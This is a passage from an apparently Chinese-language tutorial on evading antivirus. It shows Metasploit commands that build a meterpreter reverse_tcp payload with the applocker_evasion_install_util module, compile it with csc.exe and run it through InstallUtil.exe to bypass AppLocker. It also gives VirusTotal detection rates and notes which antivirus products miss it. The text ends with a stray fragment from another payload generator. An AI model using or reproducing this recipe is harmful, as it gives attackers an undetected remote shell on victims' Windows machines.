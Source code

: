 但是火绒静态+行为查杀都没发现问题，可正常上线。

在virustotal.com上查杀率为14/59。不过在线查毒时显示360也没查出来，但本地测试时却是能查出来的，所以在线查杀还是不太精准的。

复现时该模块生成的可执行无法运行。

### 生成install_util(VT查杀率33/69)

evasion还提供了其他几个模块，比如`windows/applocker_evasion_install_util`

创建payload

```
msf6 > use windows/applocker_evasion_install_util
msf6 evasion(windows/applocker_evasion_install_util) > set payload windows/meterpreter/reverse_tcp
msf6 evasion(windows/applocker_evasion_install_util) > set lhost 192.168.174.128
msf6 evasion(windows/applocker_evasion_install_util) > set lport 6666
msf6 evasion(windows/applocker_evasion_install_util) > run

[+] install_util.txt stored at /Users/xysoul/.msf4/local/install_util.txt
[*] Copy install_util.txt to the target
[*] Compile using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\csc.exe /out:install_util.exe install_util.txt
[*] Execute using: C:\Windows\Microsoft.Net\Framework\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```

根据说明，需要使用csc.exe进行编译一下，然后用`InstallUtil.exe`加载文件。

csc.exe是微软.NET Framework 中的C#语言编译器，本机安装了.net后就可以找到该文件。用vs2017里的csc.exe进行编译，生成install_util.exe。

```
> C:\Windows\Microsoft.Net\Framework\v2.0.50727\csc.exe /out:install_util.exe install_util.txt
```

![image-20220527092742869](./images/202205270927923.png)

直接执行`install_util.exe`，无法上线，并且360查杀报毒。

根据说明，需要使用`InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe`来加载，才能成功上线。

```
> C:\Windows\Microsoft.Net\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U install_util.exe
```

注意的是，如果生成的是32位的payload，就要用32位的.net下的InstallUtil来加载，否则文件会无法执行。

![image-20220527093115067](./images/202205270931141.png)


[go/meterpreter/rev_tcp>>]: set lhost 192.168.174.128
[go/meterpreter/rev_tcp>>]: set lport 6666
[go/meterpreter/rev_tcp>>]: generate
